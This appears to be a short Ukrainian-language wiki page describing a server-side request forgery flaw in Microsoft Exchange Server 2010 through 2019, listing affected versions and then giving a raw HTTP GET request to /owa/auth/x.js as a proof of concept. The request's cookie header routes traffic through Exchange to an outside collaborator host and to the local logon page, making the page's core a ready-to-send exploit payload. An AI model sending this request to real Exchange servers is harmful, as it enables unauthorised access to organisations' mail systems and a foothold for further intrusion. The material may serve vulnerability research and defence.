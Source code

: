 <languages />

Вступ до вразливості
--------------------

Вразливість підробки Exchange на стороні сервера (SSRF). Зловмисник, який використовує цю вразливість, може надсилати довільні HTTP-запити та автентифікуватися через Exchange Server.

Сфера впливу
------------

Microsoft Exchange Server: 2010

Microsoft Exchange Server: 2013

Microsoft Exchange Server: 2016

Microsoft Exchange Server: 2019

SSRF
----

    GET /owa/auth/x.js HTTP/1.1
    Host: 0.0.0.0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
    Cookie: X-AnonResource=true; X-AnonResource-Backend=burpcollaborator.net/ecp/default.flt?~3; X-BEResource=localhost/owa/auth/logon.aspx?~3;
    Accept-Language: en
    Connection: close

[檔案:Ssrf.jpg](檔案:Ssrf.jpg "wikilink")
